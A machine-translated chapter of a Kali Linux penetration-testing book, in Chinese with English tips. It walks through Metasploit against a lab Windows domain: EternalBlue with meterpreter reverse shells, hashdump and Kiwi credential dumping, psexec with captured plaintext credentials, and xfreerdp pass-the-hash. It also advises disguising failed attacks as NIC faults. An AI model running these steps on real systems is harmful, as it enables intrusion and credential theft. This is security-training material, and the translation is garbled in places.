








# 七、获取访问权限

本章将演示 Kali Linux 工具（如社会工程工具包和 Metasploit）利用 Windows 漏洞的几个用例。您还将学习使用 Kali Linux 和其他软件提供的漏洞数据库。您将学习如何使用工具利用几个常见的 Windows 漏洞，以及如何为即将出现的 Windows 漏洞创建和实施新的利用漏洞的指南。

本章将介绍以下主题：

*   Pwnage
*   利用 Metasploit 开发 Windows 系统
*   使用高级封装外形

# Pwnage

有趣的事情就从这里开始。**管理**！对于那些不知情的人。**Pwn**是黑客为**自己的**说话。如果您已被授权，您的系统已被**拥有**。换句话说，我拥有你的系统，现在我完全控制了它。利用是拥有或破坏机器的过程。到目前为止，我们通过收集目标的公共信息来收集目标的信息，并扫描目标网络的漏洞。我们现在准备好进攻了。

Black Hats 会在最忙的时候访问您的网络，并尽可能地缓慢、安静地进行操作。他们将努力保持在正常运作的噪音之下。是的，那时有更多的人关注网络，但正如一个聪明的黑客所知道的，如果你很慢，很安静，大量的流量就是一个很好的掩护。

如果您是安全操作人员，并且正在测试自己的网络，那么这不是一个好主意。在你的人际网络中进行测试最好是在 CEO 睡觉的时候。如果在测试过程中发生任何事故，可以在第二天 CEO 醒着之前修复并工作。在测试过程中，利用漏洞通常不会导致系统无法修复而死亡，但某些漏洞有时会挂起服务，或完全挂起系统，直至需要重新启动。某些漏洞攻击的全部目的是对服务或系统执行**拒绝服务**（**拒绝服务**。薄熙来并不认为这些是真正的剥削。是的，您攻击了系统并使其脱机；但你还没有穿透机器。你的攻击成功了，但你没有成功。真正的坏人不会使用 DoS 攻击。他们想进入，从你的网络上窃取或复制数据。服务下降引起了 IT 部门的注意。如果你想闯进来，那可不是件好事。拒绝服务攻击是脚本儿童的东西；如果你只知道这些，不要称自己为黑客。

DoS 工具也被认为是漏洞利用，因为它们以相同的方法在系统上工作。DoS 挂起系统。利用漏洞获取访问权限通常会使系统挂起足够长的时间，以便您注入某种类型的代码来获取访问权限。基本上，你让机器变傻了足够长的时间来建立连接。当您的攻击工具失败时，它可能看起来就像 DoS 攻击。如果您有选择的话，最好让失败的攻击看起来像是临时拒绝服务，这可能会被误解为源主机上的无辜 NIC 故障，而不是在目标系统上测试攻击代码。

**Hacker Tip**:
Whenever you are testing, always have someone or some way to reboot a service of a system when you are testing them. Always have contact information for people to call *when things go wrong*, before you start testing. Although you may try to be quiet, and not knock anything off-line, have your *Plan B* in place. Also, always have your *Get out of Jail* card before testing!

# 技术要求

*   使用 Metasploit 框架利用 Windows 操作系统
*   高级封装外形不仅仅是漏洞扫描
*   使用 pivot 开发分段网络

# 利用 Metasploit 开发 Windows 系统

“不要害怕命令行…”

-波织工

Metasploit 框架是终极工具包。曾经有一段时间，建造一台钢笔测试机需要几天的时间。每个单独的利用工具必须满足以下要求：

*   追踪研究
*   下载（有时通过拨号网络连接）
*   源代码编译
*   在你的破解平台上测试

现在，Rapid7 的伟人带来了 Metasploit 框架。Metasploit 提供了框架中作为插件或函数所需的几乎所有工具。无论您在测试的网络上发现什么操作系统，甚至是什么类型的设备，Metasploit 都可能有一个模块来利用它。Bo 90%的工作都是通过 Metasploit 完成的。

Metasploit 有两个版本：社区版和专业版。在命令行中，它们都是相同的。专业版的主要功能是一个很好的 web 界面和报告工具，可以从该界面为您生成报告。您还可以使用一些很好的工具来测试命令行中无法使用的大型网络。其中一个功能是，您可以从导入的漏洞扫描中选择一台或多台机器，而 Pro 版本将自动选择模块并针对目标机器运行这些模块。如果您在大型网络上工作，或进行大量测试，请使用专业版本。这是非常值得的钱，你可以很容易地使用它在你的卡利攻击平台。

对于本书，我们将使用 Kali Linux 附带的社区版本。

警告如果您决定购买专业版，请不要卸载 Metasploit 的社区版。这可能会破坏 Kali 更新。安装 Pro 版本时，它将安装在自己的目录中。Pro 版本需要一些社区库才能运行。

在命令行中使用 Metasploit 时，*Tab*键将为您完成许多自动完成操作。对于`show options`，输入`sh<tab> o<tab>`。您将看到这将自动完成命令。这在整个 Metsploit 都有效。

同样要重复命令，向上箭头键将带您进入之前的命令。这真的很有用。例如，`set RHOST 192.168.202.3`在更改模块和攻击同一台机器时，向上移动到前面的命令确实可以节省时间。

好的，让我们启动 Metasploit。首先，我们需要打开菜单栏中的 Metasploit 服务。下面的屏幕截图显示了 LxDE 桌面菜单。进入**开发工具****元 Sploit 框架**

 **

终端窗口将打开，服务将启动。下一个屏幕截图显示了终端启动时将显示的内容。Metasploit 使用 PostgreSQL 数据库服务器。服务在第一次运行时启动可能需要几分钟的时间。在下面的屏幕截图中，我们看到启动跳过初始化。此计算机上已设置 Metasploit。第一次设置后，您将看到：


**是的，黑客喜欢贝壳！**

服务启动后，键入`msfconsole`启动 Metasploit 控制台。当我们输入`workspace,`时，我们可以看到工作区。我们将很快建立一个新的工作区。

**Hacker tip**:
The first time you start the Metasploit console, it will create the database, so let it take its time. The next time you use it, it will start faster.

要获取控制台命令列表，请随时键入`help`：

```
    msf > help

    Core Commands
    =============

    Command Description
    ------- -----------
    ? Help menu
    banner Display an awesome metasploit banner
    cd Change the current working directory
    color Toggle color
    connect Communicate with a host
    exit Exit the console
    get Gets the value of a context-specific variable
    getg Gets the value of a global variable
    grep Grep the output of another command
    help Help menu
    history Show command history
    irb Drop into irb scripting mode
    load Load a framework plugin
    quit Exit the console
    route Route traffic through a session
    save Saves the active datastores
    sessions Dump session listings and display information about sessions
    set Sets a context-specific variable to a value
    setg Sets a global variable to a value
    sleep Do nothing for the specified number of seconds
    spool Write console output into a file as well the screen
    threads View and manipulate background threads
    unload Unload a framework plugin
    unset Unsets one or more context-specific variables
    unsetg Unsets one or more global variables
    version Show the framework and console library version numbers

    Module Commands
    ===============

    Command Description
    ------- -----------
    advanced Displays advanced options for one or more modules
    back Move back from the current context
    edit Edit the current module or a file with the preferred editor
    info Displays information about one or more modules
    loadpath Searches for and loads modules from a path
    options Displays global options or for one or more modules
    popm Pops the latest module off the stack and makes it active
    previous Sets the previously loaded module as the current module
    pushm Pushes the active or list of modules onto the module stack
    reload_all Reloads all modules from all defined module paths
    search Searches module names and descriptions
    show Displays modules of a given type, or all modules
    use Selects a module by name

    Job Commands
    ============

    Command Description
    ------- -----------
    handler Start a payload handler as job
    jobs Displays and manages jobs
    kill Kill a job
    rename_job Rename a job

    Resource Script Commands
    ========================

    Command Description
    ------- -----------
    makerc Save commands entered since start to a file
    resource Run the commands stored in a file

    Database Backend Commands
    =========================

    Command Description
    ------- -----------
    db_connect Connect to an existing database
    db_disconnect Disconnect from the current database instance
    db_export Export a file containing the contents of the database
    db_import Import a scan result file (filetype will be auto-detected)
    db_nmap Executes nmap and records the output automatically
    db_rebuild_cache Rebuilds the database-stored module cache
    db_status Show the current database status
    hosts List all hosts in the database
    loot List all loot in the database
    notes List all notes in the database
    services List all services in the database
    vulns List all vulnerabilities in the database
    workspace Switch between database workspaces

    Credentials Backend Commands
    ============================

    Command Description
    ------- -----------
    creds List all credentials in the database

```

要获取单个命令帮助，请键入`help <command>`，如下面的屏幕截图所示。我们有两个例子显示了`use`和`hosts`命令帮助。我们有一个列表，显示了它的用法以及与命令一起使用的任何标志的说明：


首先，我们需要设置一个工作区。工作区对保持测试有序有很大帮助。工作区保存您收集的所有测试数据，包括在利用漏洞期间收集的任何登录凭据和收集的任何系统数据。最好将测试数据分开，以便以后可以比较上一次测试的结果。我们将建立一个名为`TestCompany-int-20180830`的项目。这是一种命名项目的方法，使用`<client-name>-[ int (internal) | ext (external) ]-<start-date (unix-style)>`。这有助于你在 6 个月后记住哪项测试是什么。

要创建新项目，请键入以下内容：

```
workspace -a TestCompany-int-20180830  
```

通过键入`workspace`，我们可以看到数据库中的工作区列表。当您运行该命令时，您将在`TestCompany-int-20180830`工作区旁看到一个星号。这表明在创建工作空间时，您也输入了它。星号表示活动工作区。

要进入工作区，请键入以下内容：

```
workspace TestCompany-int-20180830   
```


我们可以使用扫描应用程序生成的 XML 文件中的`db_import`命令将扫描数据拉入工作区。所有扫描应用程序将其数据导出为 XML，Metasploit 将自动从主要扫描应用程序导入数据：



以下是将自动导入 Metasploit 的受支持扫描类型列表：

*   针剂
*   Amap 测井
*   Amap 日志-m
*   应用扫描
*   打嗝会话 XML
*   打嗝问题 XML
*   词
*   基石
*   FusionVM XML
*   IP 地址列表
*   IP360 ASPL
*   IP360 XML v3
*   Libpcap 包捕获
*   Masscan XML
*   Metasploit PWDump 导出
*   MetasploitXML
*   Metasploit 拉链导出
*   Microsoft 基线安全分析器
*   NeXpose 简单 XML
*   NeXpose XML 报告
*   美国国家经济研究院报告
*   Nessus XML（v1）
*   Nessus XML（v2）
*   NetSparker XML
*   Nikto XML
*   Nmap XML
*   OpenVAS 报告
*   OpenVAS XML
*   前哨 24 XML
*   Qualys 资产 XML
*   Qualys 扫描 XML
*   视网膜 XML
*   Spiceworks CSV 导出
*   马鹿 XML

您还可以使用 Nmap 导入主机、服务和网络信息，并使用 MSFconsole`db_nmap`命令直接将 Nmap 的输出导入 Metasploit。此命令适用于所有正常的`nmap`命令行标志。`db_`通知 Metasploit 导入数据。仅运行`nmap`将运行扫描，但不会将任何数据直接导入 Metasploit。您将只看到命令的输出。

要直接导入 Nmap 扫描，请运行以下命令：

```
db_nmap -A -sV -O 172.16.42.0/24  
```

`-A`通知`nmap`运行所有测试。`-sV`告知 Nmap 记录任何正在运行的服务的版本控制。`-O`通知 Nmap 记录任何正在运行的主机的操作系统。我们将看到运行扫描的输出，但这些数据也会收集到数据库中。然后，我们还可以通过运行`hosts`和`services`命令来查看导入后的结果。

以下代码显示了运行这些命令的结果：

```
hosts
services  
```

通过`hosts`命令，我们可以获得所有活动 IP 地址、所有收集的机器名称以及机器操作系统的列表。通过运行 services 命令，我们可以获得网络上所有正在运行的服务及其相关 IP 地址的列表。您可以使用`-c`标志从命令中更改表列表。在这件事上需要帮助。

**  **# 使用高级封装外形

漏洞扫描仅提供一些信息。在实际攻击机器时，您需要进行一些深层次的探测，以检查有用的信息泄漏。从扫描中，我们可以看到一个 Windows 域控制器和一个 Windows 文件服务器，两者都运行 Windows 2008 Server。两者都运行 SMB/NetBIOS 服务。这看起来是最可能的攻击路径。SMB/NetBIOS 服务存在已知的弱点。那么，让我们仔细看看这些服务。

在我们完全进入足迹之前，请先写一个关于注释的注释。特别是在进行手动探测时，记得记录下你的输出和发现。复制/粘贴是你最好的朋友。漏洞扫描总是生成漂亮的报告，所有数据都在一个地方编译。手动探测不会，所以这取决于您，您将收集大量稍后需要的数据。使用 KeepNote，这是我们在[第一章](01.html)中首先访问的，*选择您的发行版*。

以下是 Bo 测试的常规布局。KeepNote 最好的地方是框架非常开放，可以随意设置和使用。此设置使用以下内容：

*   在其中找到它的客户公司的文件夹
*   用于一般项目注释的页面
*   目标文件夹
*   每个被测试系统的单独页面。

KeepNote 甚至还附带了一个很好的**导出到 HTML**工具，在这个工具中，你可以导出你的笔记，其他人可以在没有 KeepNote 的情况下阅读它们。


1.  首先，让我们使用`nbtscan`快速查看域名或工作组名称以及我们需要的其他基本 NetBIOS 数据。因此，让我们打开一个新的终端窗口并运行以下命令：

```
nbtscan -v -s : 192.168.202.0/24
```

`-v`标志用于详细模式，将打印所有收集的信息。`-s :`标志将使用冒号选项卡格式分隔数据：


我们可以看到域名是`LAB1`，所有机器都是该域名的成员。我们以后需要这些信息。

2.  返回 MSFconsole 窗口，运行以下命令：

```
msf> search smb  
```

我们得到了与 SMB 服务相关的所有模块的列表。这是扫描、探测、攻击和攻击后模块的列表。首先，我们将检查暴露的共享，并检查来宾帐户是否对机器拥有任何权限。我们选择`auxiliary/scanner/smb/smb_enumshares`。点击*Ctrl*+*Shift*+*C*选择并复制文本，使用*Ctrl*+*Shift*+*V*粘贴：



3.  要使用该模块，请运行以下命令：

```
use auxiliary/scanner/smb/smb_enumshares  
```

这将使您进入模块。我们使用此模块的方式是使用所有模块的正常方式。不同模块的配置可能会改变进入模块的操作，但配置相同。

4.  与我们使用`use`命令进入模块的方式相反，`use`命令用于打开任何模块。要退出模块，请键入以下内容：

```
back  
```

这将带您返回 MSF 提示符。

5.  运行以下命令：

```
info auxiliary/scanner/smb/smb_enumshares  
```

使用此命令，我们可以查看有关模块的信息和帮助信息，而无需实际进入模块。

6.  进入模块后，键入以下命令：

```
show options  
```

这将显示模块的可用参数。有了这个模块，我们需要设置主机来探测域名和用户帐户。在`SMBUser`账号为空的情况下运行此模块，可以查看`Everyone`组是否有权限。将其设置为`Guest`将检查来宾帐户是否已启用，并检查`Everyone`组。

请注意，我们有一个名为`RHOSTS`的参数。这是设置要探测的主机的参数。这是一个扫描仪模块，因此参数为复数，并将接受网络范围或单个主机。

7.  我们通过键入以下内容来设置配置：

```
set RHOSTS 192.168.202.3
set SMBDomain LAB1
set SMBUser Guest
show options  
```

`show options`将再次拉起配置，因此您可以在运行扫描之前进行检查：


# 解释扫描并基于结果进行构建

在以下屏幕截图中，我们可以通过键入以下内容查看扫描仪运行的结果：

```
exploit  
```

我们可以看到扫描失败了，但确实给了我们有价值的信息。首先，由于扫描失败，我们现在知道没有对 Everyone 组开放的股票。我们可以通过响应判断服务处于活动状态，但拒绝允许连接。第二，我们可以看到，事实上，来宾帐户是禁用的。有人可能会说这没有任何结果，但从这一点上，我们确定该服务处于活动状态，并接受来自我们 IP 地址的连接。这是我们下一步行动的重要信息：



SMB 服务使用 RPC 管道传输信息，RPC 服务有时会泄漏系统信息，所以让我们看看我们得到了什么。为此，我们将使用 DCERPC 管道审计员模块：

```
use auxiliary/scanner/smb/pipe_dcerpc_auditor
show options  
```

在下面的代码中，我们看到了模块配置。我们可以使用箭头键向上箭头指向前面模块的配置，并设置`SMBDomain`和`RHOSTS`设置：

```
set SMBDomain LAB1
set RHOSTS 192.168.202.3
show options
exploit  
```


看来我们的 SMB 服务已经很好地锁定了。我们马上就知道了。

查看之前的扫描结果，我们可以看出这台机器已经有一段时间没有打过补丁了。此外，从我们的网络足迹，我们知道这是一个 Windows 2008 服务器，因此这排除了使用早于 2008 年的漏洞利用。我们还可以从探测中看出服务器配置中存在薄弱环节。我们需要一个能绕过这些障碍的漏洞。

选择正确的漏洞需要经验和反复试验。并非所有的方法都有效，有些方法需要不止一次的尝试才能利用系统。有些人有时工作，但下一次尝试失败。如果一开始你没有成功，不要放弃。

在下面的代码中，我们选择了`auxiliary/scanner/smb/smb_ms17_010`。这将检查系统是否容易受到影子经纪人从 NSA 等式组泄露的漏洞攻击。这些漏洞包括 EnernalBlue、EternalRomance、EternalChampion 和 EternalSynergy。这些漏洞也是广为人知的勒索软件病毒 Wanacry 和 Petya 的基础，这两种病毒在互联网上的许多网络上肆虐。这些漏洞是攻击向量，用于访问、上传和运行有效载荷，其对受感染的机器的驱动器进行加密。稍后，我们将使用这些漏洞来完成相同的任务，只是我们不会破坏数据，而是掠夺系统的系统信息和用户凭据。所以，让我们扫描一下，看看我们的网络上是否有任何易受攻击的主机。要使用此扫描工具，请键入以下内容：

```
use auxiliary/scanner/smb/smb_ms17_010  
```

这将使您进入模块。要查看所需的选项，请键入以下命令：

```
show options 
```

然后，您将看到以下选项：

```
Module options (auxiliary/scanner/smb/smb_ms17_010):

Name Current Setting Required Description
---- --------------- -------- -----------
CHECK_ARCH true no Check for architecture on vulnerable hosts
CHECK_DOPU true no Check for DOUBLEPULSAR on vulnerable hosts
CHECK_PIPE false no Check for named pipe on vulnerable hosts
NAMED_PIPES /usr/share/metasploit-framework/data/wordlists/named_pipes.txt yes List of named pipes to check
RHOSTS yes The target address range or CIDR identifier
RPORT 445 yes The SMB service port (TCP)
SMBDomain . no The Windows domain to use for authentication
SMBPass no The password for the specified username
SMBUser no The username to authenticate as
THREADS 1 yes The number of concurrent threads  
```

我们需要设置一些选项来运行此操作：

```
set RHOST 172.16.42.0/24 # This sets the target network
set SMBDomain LAB1 # We gained this information earlier.
set THREADS 5 # This will speed up the scan checking 5 hosts at a time.
```

然后设置以下各项：

```
exploit # To run the scan.  
```

当我们查看结果时，似乎有很多易受攻击的主机可供选择，如以下屏幕截图所示：



很多低垂的水果。我们来挑一些吧。通过搜索`ms10_010`，我们将发现与此漏洞相关的漏洞：

```
search ms17_010  
```

您将看到以下漏洞：


我们在同一个框架中有三个漏洞。`ms17_010_eternalblue`漏洞最适合 64 位系统。实际上，如果键入 show payloads，您将看到只显示 x64 有效负载。我使用了 x32 位的有效负载，并使其在 32 位系统上运行，但这可能会挂起 32 位系统，并导致其蓝屏或重新启动。

`ms17_010_psexec`漏洞最适合 32 位系统。`ms17_010_eternalblue_win8`漏洞在 Win8 和 Win10 系统上最有效。此漏洞还将绕过这些系统上的 ASLR 保护。

我发现这些漏洞攻击在域控制器上不起作用。这很可能是因为域控制器需要 Active Directory 登录凭据，而不允许连接到 SMB 服务。最好选择另一台服务器，然后横向移动到域控制器。这将是我们的攻击策略。

通过前面的扫描，我们发现有一个易受攻击的 64 位系统 BO-SRV3。我们将使用`ms17_010_eternalblue`漏洞来破坏这个系统。使用以下代码加载模块：

```
use exploit/windows/smb/ms17_010_eternalblue
show options # to show the options  
```

对于选项，您需要加载以下内容：

```
set RHOST 172.16.42.7
set SMBDomain LAB1
```

要查看可用的有效载荷，请键入以下命令：

```
show payloads  
```

我们将使用以下方法：

```
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 172.16.42.140 # This will be kali's IP address
show options # To check your set up  
```

如果一切看起来都很好，我们会得到以下结果：

```
exploit  
```

答对 了我们赢了！我们发现该漏洞已成功运行，我们有一个 MeterMeter 外壳：


运行以下命令，我们可以看到我们已远程连接到具有完全系统级访问权限的系统：

```
sysinfo # This shows the system's information
getuid # This will show the user access level
ipconfig # Shows the IP address of the compromised system.  
```



是掠夺和掠夺的时候了：

```
hashdump  
```

在下面的屏幕截图中，我们看到已转储本地哈希：


所以我们有本地管理员的散列。很可能这也是域控制器和其他主机上的本地管理员，但是让我们也转储一些 Active Directory 信息。为此，我们需要加载 Kiwi 工具包：

```
load kiwi
```

要查看命令，请随时键入`help`。以下是 Kiwi 命令列表：

```
Kiwi Commands
=============
Command Description
------- -----------
creds_all Retrieve all credentials (parsed)
creds_kerberos Retrieve Kerberos creds (parsed)
creds_msv Retrieve LM/NTLM creds (parsed)
creds_ssp Retrieve SSP creds
creds_tspkg Retrieve TsPkg creds (parsed)
creds_wdigest Retrieve WDigest creds (parsed)
dcsync Retrieve user account information via DCSync (unparsed)
dcsync_ntlm Retrieve user account NTLM hash, SID and RID via DCSync
golden_ticket_create Create a golden kerberos ticket
kerberos_ticket_list List all kerberos tickets (unparsed)
kerberos_ticket_purge Purge any in-use kerberos tickets
kerberos_ticket_use Use a kerberos ticket
kiwi_cmd Execute an arbitary mimikatz command (unparsed)
lsa_dump_sam Dump LSA SAM (unparsed)
lsa_dump_secrets Dump LSA secrets (unparsed)
password_change Change the password/hash of a user
wifi_list List wifi profiles/creds for the current user
wifi_list_shared List shared wifi profiles/creds (requires SYSTEM)  
```

使用`creds_all`命令将获得`msv`、`wdigest`、`tspkg`和`kerberos`凭证。它基本上是机器上所有保存或存储的凭证的转储。请注意，我们从最近登录到系统的域用户捕获了明文域凭据：


因此，一个下来，并与凭据击中域控制器。

键入以下内容以退出 MeterMeter 会话，而不关闭会话：

```
background
sessions # This will show you the session is still running.  
```


# 开发 32 位系统

在前面的部分中，我们使用标准的 EternalBlue 漏洞攻击了 64 位机器。现在让我们使用`psexec`模块来折衷一个 32 位系统。我们正在使用此模块，因为我们从上次攻击中收集了凭据。这一次，我们正在寻找网络上的一个工作站。工作站通常由许多不同的人使用，因此这台机器上应该有许多存储的凭据。我们拥有的凭据越多，访问权限就越大。要使用此模块，请键入以下内容：

```
use exploit/windows/smb/psexec
show options # To see the module's options.  
```

我们需要加载与之前相同的选项，但我们将攻击`172.16.42.173 \\WIN7-01`：

```
set RHOST 172.16.42.173 # Set the victim host.
set SMBDomain LAB1 # Set the domain.
set SMBUser fflintstone # The captured username
set SMBPass CatKeeper! # The captured clear text credentials (This can be a hash!)
show options # To check your settings.  
```

接下来，我们需要选择一个有效负载，因此运行以下命令以查看可用的有效负载：

```
show payloads  
```

在上一次攻击中，当我们运行此命令时，我们只看到 64 位有效负载。这一次，我们可以选择 32 位和 64 位的有效负载。WIN7-01 是 32 位的，因此我们需要选择适当的有效负载：

```
set PAYLOAD windows/meterpreter/reverse_tcp 
```

您会注意到，这是同一类型的反向 TCP 负载，但没有在其命令行中显示 x64。这是一个 32 位系统。

如果您之前没有全局设置您的`LHOST`（您的 Kali 机器），您现在需要设置它：

```
set LHOST 172.16.42.140 # This sets the local host. Use setg to set this value globally. 
```

**Hacker's tip**:
Metasploit will automatically try to set up the `LHOST` interface for exploits. This can create a problem if the Kali machine is connected to two or more networks. The exploit handler may connect to the wrong network causing the exploit to fail. Normally, when running Metasploit, after entering into my workspace, I go ahead and globally set the `LHOST` interface using the `setg` global option to the local host.

再次运行`show options`命令，我们可以看到攻击远程主机的正确设置：



在下面的屏幕截图中，我们还看到我们在本地机器上为处理程序进行了正确的设置：


接下来，运行以下命令：

```
exploit  
```

答对 了我们有另一台主机被完全系统级访问破坏。

运行以下命令：

```
sysinfo # This shows the system's information.
getuid # This shows the level of access to the system.
hashdump # To dump the local hashes and user accounts.
load kiwi # To load the Kiwi Toolset.  
```


同样，在加载 Kiwi 之后，我们运行`creds_all`命令并在系统上转储所有保存或存储的凭据，包括系统和域凭据。

在这两个系统之间，我们现在有足够的凭证，我们知道现在可以毫无问题地接管域控制器。

# 使用 Xfreerdp 访问系统

**Xfreerdp**是 Kali 上的一个 RDP 客户端，用于使用 RDP 协议访问 Windows 系统。Rdesktop 是运行 Linux 时使用的正常默认 RDP 客户端。Xfreerdp 有一些黑客喜欢的酷特性。使用 Rdesktop 时，您必须具有明文密码。使用 Xfreerdp，您可以运行*传递散列*攻击，无需破解捕获的散列即可访问窗口的远程桌面会话。Xfreerdp 是从命令行运行的，没有 GUI 界面。

通过键入以下内容，可以获得受支持选项的完整列表：

```
xfreerdp -help  
```

以下是帮助文件和支持选项的副本：

```
FreeRDP - A Free Remote Desktop Protocol Implementation See www.freerdp.com for more information Usage: xfreerdp [file] [options] [/v:<server>[:port]] Syntax: /flag (enables flag) /option:<value> (specifies option with value) +toggle -toggle (enables or disables toggle, where '/' is a synonym of '+') /a:<addin>[,<options>] Addin /action-script:<file-name> Action script /admin Admin (or console) session +aero Enable desktop composition (default:off) /app:<path> or ||<alias> Remote application program /app-cmd:<parameters> Remote application command-line parameters /app-file:<file-name> File to open with remote application /app-guid:<app-guid> Remote application GUID /app-icon:<icon-path> Remote application icon for user interface /app-name:<app-name> Remote application name for user interface /assistance:<password> Remote assistance password +async-channels Asynchronous channels (experimental) (default:off) +async-input Asynchronous input (default:off) +async-transport Asynchronous transport (experimental) (default:off) +async-update Asynchronous update (default:off) /audio-mode:<mode> Audio output mode +auth-only Authenticate only (default:off) -authentication Authentication (expermiental) (default:on) +auto-reconnect Automatic reconnection (default:off) /auto-reconnect-max-retries:... Automatic reconnection maximum retries, 0 for unlimited [0,1000] -bitmap-cache Enable bitmap cache (default:on) /bpp:<depth> Session bpp (color depth) /buildconfig Print the build configuration /cert-ignore Ignore certificate /cert-name:<name> Certificate name /cert-tofu Automatically accept certificate on first connect /client-hostname:<name> Client Hostname to send to server -clipboard Redirect clipboard (default:on) /codec-cache:rfx|nsc|jpeg Bitmap codec cache -compression Enable compression (default:on) /compression-level:<level> Compression level (0,1,2) +credentials-delegation Disable credentials delegation (default:off) /d:<domain> Domain -decorations Window decorations (default:on) /disp Display control /drive:<name>,<path> Redirect directory <path> as named share <name> +drives Redirect all mount points as shares (default:off) /dvc:<channel>[,<options>] Dynamic virtual channel /dynamic-resolution Send resolution updates when the window is resized /echo Echo channel -encryption Encryption (experimental) (default:on) /encryption-methods:... RDP standard security encryption methods /f Fullscreen mode (<Ctrl>+<Alt>+<Enter> toggles fullscreen) -fast-path Enable fast-path input/output (default:on) +fipsmode Enable FIPS mode (default:off) +fonts Enable smooth fonts (ClearType) (default:off) /frame-ack:<number> Number of frame acknowledgement /from-stdin[:force] Read credentials from stdin. With <force> the prompt is done before connection, otherwise on server request. /g:<gateway>[:<port>] Gateway Hostname /gateway-usage-method:direct|detect Gateway usage method /gd:<domain> Gateway domain /gdi:sw|hw GDI rendering /geometry Geometry tracking channel +gestures Consume multitouch input locally (default:off) /gfx[:RFX|AVC420|AVC444] RDP8 graphics pipeline (experimental) /gfx-h264[:AVC420|AVC444] RDP8.1 graphics pipeline using H264 codec +gfx-progressive RDP8 graphics pipeline using progressive codec (default:off) +gfx-small-cache RDP8 graphics pipeline using small cache mode (default:off) +gfx-thin-client RDP8 graphics pipeline using thin client mode (default:off) +glyph-cache Glyph cache (experimental) (default:off) /gp:<password> Gateway password -grab-keyboard Grab keyboard (default:on) /gt:rpc|http|auto Gateway transport type /gu:... Gateway username /gat:<access token> Gateway Access Token /h:<height> Height +heartbeat Support heartbeat PDUs (default:off) /help Print help +home-drive Redirect user home as share (default:off) /ipv6 Prefer IPv6 AAA record over IPv4 A record /jpeg Enable JPEG codec /jpeg-quality:<percentage> JPEG quality /kbd:0x<id> or <name> Keyboard layout /kbd-fn-key:<value> Function key value /kbd-list List keyboard layouts /kbd-subtype:<id> Keyboard subtype /kbd-type:<id> Keyboard type /load-balance-info:<info-string> Load balance info /log-filters:... Set logger filters, see wLog(7) for details /log-level:... Set the default log level, see wLog(7) for details /max-fast-path-size:<size> Specify maximum fast-path update size /max-loop-time:<time> Specify maximum time in milliseconds spend treating packets +menu-anims Enable menu animations (default:off) /microphone[:...] Audio input (microphone) /monitor-list List detected monitors /monitors:<id>[,<id>[,...]] Select monitors to use -mouse-motion Send mouse motion (default:on) /multimedia[:...] Redirect multimedia (video) /multimon[:force] Use multiple monitors +multitouch Redirect multitouch input (default:off) +multitransport Support multitransport protocol (default:off) -nego Enable protocol security negotiation (default:on) /network:... Network connection type /nsc Enable NSCodec -offscreen-cache Enable offscreen bitmap cache (default:on) /orientation:0|90|180|270 Orientation of display in degrees /p:<password> Password /parallel[:<name>[,<path>]] Redirect parallel device /parent-window:<window-id> Parent window id +password-is-pin Use smart card authentication with password as smart card PIN (default:off) /pcb:<blob> Preconnection Blob /pcid:<id> Preconnection Id /pheight:<height> Physical height of display (in millimeters) /play-rfx:<pcap-file> Replay rfx pcap file /port:<number> Server port +print-reconnect-cookie Print base64 reconnect cookie after connecting (default:off) /printer[:<name>[,<driver>]] Redirect printer device /proxy:[<proto>://]<host>:<port> Proxy (see also environment variable below) /pth:<password-hash> Pass the hash (restricted admin mode) /pwidth:<width> Physical width of display (in millimeters) /reconnect-cookie:<base64-cookie> Pass base64 reconnect cookie to the connection /restricted-admin Restricted admin mode /rfx RemoteFX /rfx-mode:image|video RemoteFX mode /scale:100|140|180 Scaling factor of the display /scale-desktop:<percentage> Scaling factor for desktop applications (value between 100 and 500) /scale-device:100|140|180 Scaling factor for app store applications /sec:rdp|tls|nla|ext Force specific protocol security +sec-ext NLA extended protocol security (default:off) -sec-nla NLA protocol security (default:on) -sec-rdp RDP protocol security (default:on) -sec-tls TLS protocol security (default:on) /serial[:...] Redirect serial device /shell:<shell> Alternate shell /shell-dir:<dir> Shell working directory /size:... Screen size /smart-sizing[:<width>x<height>] Scale remote desktop to window size /smartcard[:<name>[,<path>]] Redirect smartcard device /sound[:...] Audio output (sound) /span Span screen over multiple monitors /spn-class:<service-class> SPN authentication service class /ssh-agent SSH Agent forwarding channel /t:<title> Window title -themes Enable themes (default:on) /tls-ciphers:netmon|ma|ciphers Allowed TLS ciphers -toggle-fullscreen Alt+Ctrl+Enter toggles fullscreen (default:on) /u:... Username +unmap-buttons Let server see real physical pointer button (default:off) /usb:... Redirect USB device /v:<server>[:port] Server hostname /vc:<channel>[,<options>] Static virtual channel /version Print version /video Video optimized remoting channel /vmconnect[:<vmid>] Hyper-V console (use port 2179, disable negotiation) /w:<width> Width -wallpaper Enable wallpaper (default:on) +window-drag Enable full window drag (default:off) /wm-class:<class-name> Set the WM_CLASS hint for the window instance /workarea Use available work area Examples: xfreerdp connection.rdp /p:Pwd123! /f xfreerdp /u:CONTOSO\JohnDoe /p:Pwd123! /v:rdp.contoso.com xfreerdp /u:JohnDoe /p:Pwd123! /w:1366 /h:768 /v:192.168.1.100:4489 xfreerdp /u:JohnDoe /p:Pwd123! /vmconnect:C824F53E-95D2-46C6-9A18-23A5BB403532 /v:192.168.1.100 Clipboard Redirection: +clipboard Drive Redirection: /drive:home,/home/user Smartcard Redirection: /smartcard:<device> Serial Port Redirection: /serial:<name>,<device>,[SerCx2|SerCx|Serial],[permissive] Serial Port Redirection: /serial:COM1,/dev/ttyS0 Parallel Port Redirection: /parallel:<name>,<device> Printer Redirection: /printer:<device>,<driver> Audio Output Redirection: /sound:sys:oss,dev:1,format:1 Audio Output Redirection: /sound:sys:alsa Audio Input Redirection: /microphone:sys:oss,dev:1,format:1 Audio Input Redirection: /microphone:sys:alsa Multimedia Redirection: /multimedia:sys:oss,dev:/dev/dsp1,decoder:ffmpeg Multimedia Redirection: /multimedia:sys:alsa USB Device Redirection: /usb:id,dev:054c:0268 For Gateways, the https_proxy environment variable is respected: export https_proxy=http://proxy.contoso.com:3128/ xfreerdp /g:rdp.contoso.com ... More documentation is coming, in the meantime consult source files  
```

正如我们所看到的，这个应用程序比 Rdesktop 有更多受支持的功能，并且是一个正常访问窗口机器的好应用程序。运行应用程序时，可以通过调用配置文件来构建配置文件并启动复杂的设置。这些特性中的许多超出了本书的范围。让我们看看最有用的标志，`/pth:<password-hash>`。此标志将传递哈希而不是纯文本密码，并登录到系统。以下是我用来访问系统的字符串：

```
